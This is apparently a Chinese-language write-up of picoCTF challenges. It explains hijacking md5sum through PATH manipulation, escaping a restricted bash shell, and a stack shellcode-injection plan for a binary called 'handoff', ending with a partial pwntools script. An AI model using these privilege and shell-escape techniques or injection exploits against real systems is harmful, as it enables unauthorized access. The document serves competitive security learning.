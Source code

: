 ### hash-only-1

這題會對flag進行md5 hash，注意到他是使用命令行呼叫`md5sum`，因此可以劫持，複製一個`cat`並改成`md5sum`即可騙過他
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_7d0e6886fce6417ae16bcd53786e1261.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948805&Signature=8uT0C95je8ZZ9swhPgDByBRp604%3D)

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_8384501fb40ecc3552bb02b50305ce15.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948811&Signature=QW8BmdRf4M9SbHuIKc8A5aovlP0%3D)

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_1d92324148b8c4cf24a03169b662063e.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948817&Signature=HCQoG9AUfbO4Lih%2FE8dYA9N0LbM%3D)
記得修改環境PATH，優先抓當前目錄

### hash-only-2
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_9abfc168e2b4af1c32095341df25c64a.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948823&Signature=q84LxdzScU5tDJkycOZI76fZGJg%3D)

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_ac22b94d7328a4061ad049df5c8ec0e3.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948828&Signature=2WzNwXjfvDsw7BuUnbU1DIoOkGI%3D)

用一樣的方式發現被限制了，因為當前環境是`rbash`，是被受限制的bash
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_dbdeb11edfd05794cb14b75b2fab0eca.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948835&Signature=BZlmlAXiUHyMw0ZwbMEhZDhKOM0%3D)

只要切換成`sh`就沒事了
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_08c40dae19f7d8a2625843e4b42e9a6b.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948841&Signature=Vtg0PLl9ILhbwTu9vBEGhMrMVGc%3D)

### handoff
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_61374a93ac64674984a22c503ec0d574.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948847&Signature=3ijwjuCAAhhclXOO5vrOaIQk3Bs%3D)
先檢查發現發現stack可執行，且這題沒有提供讀flag的函數，估計是要注入shellcode來啟動shell

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_64b143e1639dd495bbfa74687faa6ad1.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948853&Signature=GHe7P0NuXGYnakHWP6fYE%2Fo%2B%2BWk%3D)
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_0d992f5195820b630d74271dfb17514f.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948859&Signature=FwzE7kch%2FkinuLjFgXD%2BiUIZQxc%3D)
這段可以overflow到return address，但長度不長，而且因為ASLR，我們也不知道shellcode被放置的正確位置

![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_5b9daef3072274fe9b64f8d4357b1568.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948864&Signature=BNqC7gUBy%2FyPvoo%2BOdMpJkY8AeA%3D)
可以把shellocde放到題目提供的entries，他在stack上，且與rsp的距離固定
return addr - entries[0]：
`0x7fffffffdcd8 - 0x7fffffffd9f0 = 0x2e8`


接著要想辦法跳過去entries，發現在ret時的`rax`存的是最後在輸入時的buf的起始位置，能利用gadget跳到rax所存的位置，這裡可以注入shellcode來跳到entries
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_7d73994d9f2ae4cf24945b7f03cf51f2.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948871&Signature=%2BM%2FC6%2BTrN2wzLHvNlxXVN3GdK5I%3D)
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_b29c993b1635660e4bff01d686ca04b9.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948876&Signature=uQXkbqCQnqr7WiW%2FAM39pXCki9c%3D)
![image](https://hackmd-prod-images.s3-ap-northeast-1.amazonaws.com/uploads/upload_9f80466371bd64063a40ae64d81949cd.png?AWSAccessKeyId=AKIA3XSAAW6AWSKNINWO&Expires=1760948881&Signature=qOLoTxfiJJkDMzGJjxJeZhMPAoI%3D)
> payload長這樣

```python
from pwn import *

#p = process("./handoff")
p = remote("shape-facility.picoctf.net", 58768)

context.arch = 'AMD64'

print(p.recvline().decode('utf-8'))
print(p.recvuntil(b'Exit the app\n').decode('utf-8'))

p.sendline(b'1')
print(p.recvline())
p.sendline(b'shellcode')

print(p.recvuntil(b'Exit the app\n').decode('utf-8'))
p.sendline(b'2')
print(p.recvline())
```